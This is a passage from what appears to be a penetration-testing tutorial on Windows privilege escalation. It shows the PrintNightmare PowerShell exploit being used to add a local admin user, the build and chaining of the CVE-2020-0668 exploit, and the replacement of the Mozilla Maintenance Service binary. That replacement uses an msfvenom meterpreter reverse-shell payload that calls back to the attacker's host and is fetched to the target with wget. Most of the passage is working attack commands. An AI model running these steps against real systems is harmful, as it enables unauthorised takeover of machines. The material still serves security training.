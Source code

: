 Now we can import the [PowerShell script](https://github.com/calebstewart/CVE-2021-1675) and use it to add a new local admin user:
```console
PS C:\zeropio> Import-Module .\CVE-2021-1675.ps1
PS C:\zeropio> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

Confirm that we have created the user:
```console
PS C:\zeropio> net user hacker
```

### Enumerating Missing Patches

We can examine the installed updates in several ways:
```console
PS C:\zeropio> systeminfo
PS C:\zeropio> wmic qfe list brief
PS C:\zeropio> Get-Hotfix
```

```console
C:\zeropio> wmic qfe list brief
```

### CVE-2020-0668 Example 

Let's verify our current user's privileges:
```console
C:\zeropio> whoami /priv
```

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit.  Building the solution should create the following files:
- `CVE-2020-0668.exe`{: .filepath}
- `CVE-2020-0668.exe.config`{: .filepath}
- `CVE-2020-0668.pdb`{: .filepath}
- `NtApiDotNet.dll`{: .filepath}
- `NtApiDotNet.xml`{: .filepath}

This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. `icacls` confirms it:
```console
C:\zeropio> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Let's generate a malicious maintenanceservice.exe:
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<OUR IP> LPORT=8443 -f exe > maintenanceservice.exe
```

Copy it in two files:
```console
PS C:\zeropio> wget http://<OUR IP>/maintenanceservice.exe -O maintenanceservice.exe
PS C:\zeropio> wget http://<OUR IP>/maintenanceservice.exe -O maintenanceservice2.exe
```
